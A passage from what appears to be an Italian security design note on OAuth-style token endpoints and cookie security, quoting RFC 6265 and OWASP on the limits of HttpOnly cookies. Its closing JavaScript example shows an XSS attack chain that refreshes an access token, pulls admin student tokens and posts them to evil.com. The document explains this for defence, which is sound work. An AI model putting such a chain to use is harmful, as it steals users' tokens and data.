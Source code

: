 ```python
        raise HTTPException(
            status_code=401,
            detail={
                "error": "invalid_grant",
                "error_description": "Refresh token expired"
            }
        )
    
    # ... genera nuovo access token ...
```

**Applicabilità**: Tutti endpoint OAuth 2.0-like (exchange-code, refresh-token, revoke-token).

---

## 2. Cookie Security Standards (RFC 6265, OWASP)

### 2.1 Attributo HttpOnly (RFC 6265, Sezione 4.1.2.6)

**RFC 6265 Quote**: "instructs the user agent to omit the cookie when providing access to cookies via 'non-HTTP' APIs (such as a web browser API that exposes cookies to scripts)"

**Protezione**: JavaScript non può leggere cookie tramite `document.cookie` → previene XSS-based cookie theft offline

**LIMITAZIONE CRITICA** (OWASP Session Management Cheat Sheet):
> "However, if an XSS attack is combined with a CSRF attack, the requests sent to the web application will include the session cookie, as the browser always includes the cookies when sending requests"

**Implicazione**: HttpOnly protegge solo la **confidenzialità** del cookie (attaccante non può leggerlo per usarlo offline), ma NON impedisce **azioni autenticate on-the-fly** se attaccante usa XSS per inviare richieste tramite `fetch()` o `XMLHttpRequest` con cookie auto-incluso dal browser.

**Esempio Attack Chain XSS-based Authenticated Request**:
```javascript
// Script malevolo iniettato via XSS
// HttpOnly previene: document.cookie (NON ritorna refresh_token)
// HttpOnly NON previene: richieste autenticate on-the-fly

fetch('/api/v1/auth/refresh-token', {
  method: 'POST',
  credentials: 'include'  // Browser invia cookie HttpOnly automaticamente
}).then(res => res.json()).then(data => {
  // Attaccante ottiene nuovo access token in risposta JSON
  // Usa access token per exfiltration dati sensibili
  fetch('/api/v1/admin/student-tokens', {
    headers: {'Authorization': `Bearer ${data.access_token}`}
  }).then(res => res.json()).then(tokens => {
    // Exfiltrate tokens a server attaccante
    fetch('https://evil.com/collect', {
      method: 'POST',
      body: JSON.stringify(tokens)
    });
  });
});
```
